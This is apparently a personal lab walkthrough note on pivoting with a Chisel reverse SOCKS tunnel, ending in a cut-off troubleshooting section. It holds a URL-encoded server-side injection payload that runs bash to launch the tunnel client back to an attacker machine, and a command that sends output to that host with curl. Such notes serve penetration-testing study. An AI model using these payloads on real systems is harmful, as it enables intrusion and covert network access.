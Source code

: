 ### Verify
To verify that our injection worked, we can check the Apache server logs. We should see a HTTP [`GET`](../../www/HTTP.md#`GET`) request for `/chisel` (assuming we named the binary `chisel`):
```bash
kali@kali:~$ tail -f /var/log/apache2/access.log
...
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```
## Execute Chisel
With both binaries on both machines, we can establish our chisel HTTP tunnel. 
### Chisel Server
On our Kali machine we need to start chisel as the server and have it listen to port `8080`. 
> [!Note]
> We're starting the chisel server on port `8080` but later the *client will trigger port `1080`* on the Kali machine for our SOCKS proxy.
```bash
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```
- `--port` tells chisel to run the server so it's listening on port `8080`
- `--reverse` tells chisel to enable *reverse tunneling*
#### Verify
We can verify the server is running by using [tcpdump](../../CLI-tools/linux/tcpdump.md):
```bash
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```
This tells us that our chisel process is listening on port `8080` of the `tun0` interface.
### Chisel Client
We want the client to connect to our *chisel server on the Kali box* (`192.168.118.4:8080`) and then also *create a reverse SOCKS tunnel* (`R:socks`) which will bind to port `1080` *by default*. The `R` prefix in the command specifies a *reverse tunnel* using the SOCKS proxy (bound to `1080`):
```bash
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```
- `>/dev/null 2>&1` redirects all *output* to `/dev/null` which doesn't exist
	- There is a better way to do the same thing which is less confusing, that is `...R:socks &> /dev/null` (see [file descriptors](../../computers/linux/file-system/file-descriptor.md))
- `&` (at the end) will force the process *to run in the background*. This ensures our injection doesn't *hang while waiting for the process to finish*
#### Character Encode for Webshell
```bash
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
## Troubleshoot Issues
After running this command you should notice *no output* was returned. That means something is wrong with how we can our client server. To troubleshoot this, we can *redirect `stderr` and `stdout` to a file* and then send that file to our Kali machine *using a [`POST`](../../www/HTTP.md#`POST`) request* (via [curL](../../CLI-tools/linux/remote/curL.md)):
```bash
# New payload:
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/

# Injection command:
```